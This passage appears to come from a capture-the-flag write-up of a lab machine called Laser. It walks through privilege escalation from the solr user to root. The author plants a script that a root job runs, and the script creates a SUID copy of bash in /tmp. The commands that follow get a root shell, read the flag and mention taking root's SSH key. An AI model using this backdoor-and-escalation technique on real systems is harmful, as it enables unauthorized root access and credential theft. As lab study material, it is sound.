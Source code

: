 

Unfortunately, I can see that the file, when it exists, is owned by root
and not writable, so when I try to write to it, I get an error.

#### Write First

I'll write what I want to do into `/tmp/clear.sh`, and then I set it not
writable. When the script tries to `scp` into that file, it will fail.
However, the default behavior of a `bash` script is to continue on the
next line after a failure (you can use the `set -e` command to [change
that](https://intoli.com/blog/exit-on-errors-in-bash-scripts/)). When
the script continues, it will log in with `ssh` (through the container
back into itself) and run my script.

First create it the script:



    solr@laser:/tmp$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > clear.sh



This script will copy `bash` into `/tmp` as `0xdf`, make it owned by
root and SUID.

Make it executable and not writable:



    solr@laser:/tmp$ chmod +x clear.sh
    solr@laser:/tmp$ chmod -w clear.sh
    solr@laser:/tmp$ ls -l clear.sh
    -r-xr-xr-x 1 solr solr 83 Sep 13 17:14 clear.sh



When the minute passes, `0xdf` is there:



    solr@laser:/tmp$ ls -l 0xdf
    -rwsrwxrwx 1 root root 1183448 Sep 13 17:16 0xdf



Running it gives a shell as root:



    solr@laser:/tmp$ ./0xdf -p
    0xdf-5.0# id
    uid=114(solr) gid=120(solr) euid=0(root) groups=120(solr)



I can grab `root.txt`:



    0xdf-5.0# cat /root/root.txt
    a4a0a162************************



I can also grab the root `id_rsa` and use it over SSH for future root
shell.





